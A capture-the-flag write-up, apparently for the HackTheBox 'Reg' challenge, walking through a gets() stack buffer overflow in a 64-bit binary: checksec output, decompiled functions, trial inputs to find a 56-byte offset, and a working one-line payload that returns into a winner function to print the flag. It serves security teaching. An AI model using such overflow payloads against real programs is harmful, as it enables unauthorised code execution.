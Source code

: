 # Reg Write-up

Love buffer overflow practices. Lets get started

```shell
╰─ file reg                                                                           ─╯
reg: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=134349a67c90466b7ce51c67c21834272e92bdbf, for GNU/Linux 3.2.0, not stripped

╰─ gdb -q ./reg                                                                       ─╯
Reading symbols from ./reg...
(No debugging symbols found in ./reg)
gdb-peda$ checksec
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

Get information with ghidra, found main function wich calls run function:

```code
undefined8 main(void)

{
  run();
  return 0;
}
```

run function has locat_38 48 char var and gets, gets function is bufferoverflow exposed.

```code
void run(void)

{
  char local_38 [48];
  
  initialize();
  printf("Enter your name : ");
  gets(local_38);
  puts("Registered!");
  return;
}
```
this function is not called on the code, so we never get it. The plan is use the gets buffer overflow, and pass return address from winner function after the offset. 

```code
void winner(void)

{
  char local_418 [1032];
  FILE *local_10;
  
  puts("Congratulations!");
  local_10 = fopen("flag.txt","r");
  fgets(local_418,0x400,local_10);
  puts(local_418);
  fclose(local_10);
  return;
}

```

Lets get adress memory from winner function, exactly 0x0000000000401207 where rbp is moved to rps:


```code
gdb-peda$ disassemble winner
Dump of assembler code for function winner:
   0x0000000000401206 <+0>:	push   rbp
   0x0000000000401207 <+1>:	mov    rbp,rsp
   0x000000000040120a <+4>:	sub    rsp,0x410
   0x0000000000401211 <+11>:	lea    rdi,[rip+0xdec]        # 0x402004
   0x0000000000401218 <+18>:	call   0x401030 <puts@plt>
   0x000000000040121d <+23>:	lea    rsi,[rip+0xdf1]        # 0x402015
   0x0000000000401224 <+30>:	lea    rdi,[rip+0xdec]        # 0x402017
   0x000000000040122b <+37>:	call   0x4010a0 <fopen@plt>
   0x0000000000401230 <+42>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401234 <+46>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401238 <+50>:	lea    rax,[rbp-0x410]
   0x000000000040123f <+57>:	mov    esi,0x400
   0x0000000000401244 <+62>:	mov    rdi,rax
   0x0000000000401247 <+65>:	call   0x401070 <fgets@plt>
   0x000000000040124c <+70>:	lea    rax,[rbp-0x410]
   0x0000000000401253 <+77>:	mov    rdi,rax
   0x0000000000401256 <+80>:	call   0x401030 <puts@plt>
   0x000000000040125b <+85>:	mov    rax,QWORD PTR [rbp-0x8]
   0x000000000040125f <+89>:	mov    rdi,rax
   0x0000000000401262 <+92>:	call   0x401040 <fclose@plt>
   0x0000000000401267 <+97>:	nop
   0x0000000000401268 <+98>:	leave
   0x0000000000401269 <+99>:	ret
End of assembler dump.
```

In this case we want to let it easy in order to get the basic concepts.

gets function is put it onside char local_38 [48]; try overflow with python string until we get offset:

Create flag file:
```shell
echo "GETSSSSSSS" > flag.txt 
```

Search manual offset with python:
```shell
 …  hackthebox  Reg  Files  python -c 'print("A"*60)' |./reg     SIGINT   main
Enter your name : Registered!
Segmentation fault (core dumped)
 …  hackthebox  Reg  Files  python -c 'print("A"*50)' |./reg   SIGSEGV   main 
Enter your name : Registered!
 …  hackthebox  Reg  Files  python -c 'print("A"*55)' |./reg              main 
Enter your name : Registered!
 …  hackthebox  Reg  Files  python -c 'print("A"*59)' |./reg              main 
Enter your name : Registered!
Segmentation fault (core dumped)
 …  hackthebox  Reg  Files  python -c 'print("A"*56)' |./reg   SIGSEGV   main 
Enter your name : Registered!
Illegal instruction (core dumped)
 …  hackthebox  Reg  Files  python -c 'print("A"*55)' |./reg 0  SIGILL   main 
Enter your name : Registered!
 …  hackthebox  Reg  Files  python -c 'print("A"*56)' |./reg              main 
Enter your name : Registered!
Illegal instruction (core dumped)
 …  hackthebox  Reg  Files             

```

Look at this, on 55 A string generated with python, no segment fault happen but It just happend on 56, so offset is 56.

We have offset (56) and address we want as return 0x0000000000401207 = \x07\x12\x40\x00, lets concatenate this two values with python and pipe to reg file:

```shell
python -c 'print("A"*56 + "\x07\x12\x40\x00")'|./reg Enter your name : Registered!Congratulations!
GETSSSSSSS
```

GREAT!

